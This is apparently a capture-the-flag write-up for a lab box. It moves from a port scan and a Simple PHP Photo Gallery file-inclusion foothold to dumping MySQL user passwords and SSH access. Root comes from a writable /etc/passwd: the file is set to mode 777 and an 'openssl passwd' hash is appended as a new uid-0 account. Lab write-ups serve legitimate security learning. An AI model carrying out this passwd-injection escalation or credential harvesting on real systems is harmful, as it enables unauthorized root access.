# Network Enumeration

```bash
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
80/tcp    open   http
111/tcp   open   rpcbind
139/tcp   open   netbios-ssn
445/tcp   open   microsoft-ds
3306/tcp  open   mysql
33060/tcp open   mysqlx

```

# Port Enumeration

## 80

The webstie shows that's `simple php photo gallery` which verion is v0.8



Search on google, it shows version 0.7 has LFI and also in github has rfi.



So try to use RFI.



Then get rev shell from `simple php photo gallery`.



# PE

Check the default `www` path to get some config.



Now we get the MySQL's password. `root:MalapropDoffUtilize1337`

Login to mysql to get more information.

```bash
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| SimplePHPGal       |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.03 sec)
mysql> use SimplePHPGal;
use SimplePHPGal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+------------------------+
| Tables_in_SimplePHPGal |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.00 sec)

mysql> select * from users;
select * from users;
+----------+----------------------------------------------+
| username | password                                     |
+----------+----------------------------------------------+
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |
+----------+----------------------------------------------+
3 rows in set (0.01 sec)

```

Now we have 3 users password. This is double base64 encode. Now decode that get the user password are

`john:MobilizeHissSeedtime747`

`michael:HockSydneyCertify123`

`serena:OverallCrestLean000`

Check the `/home`, we can just see the michael's home, so try to use Michael's password to login ssh.



Check the `sudo -l`, but Michael don't have any permissions to running with `sudo`. Now running the `linpeas.sh`.


## System information



## Active Ports



## Users



## Useful information



## Interesting file owned by everyone.



Change `/etc/passwd` permission

```bash
[michael@snookums ~]$ ls -al /etc/passwd
-rw-r--r--. 1 michael root 1162 Jun 22  2021 /etc/passwd
[michael@snookums ~]$ chmod 777 /etc/passwd
[michael@snookums ~]$ openssl passwd aaron
95tsH6n7MVWsM
[michael@snookums ~]$ echo "aaron3:95tsH6n7MVWsM:0:0:root:/root:/bin/bash" >> /etc/passwd
```

Then switch user to `aaron3`, get root permission.

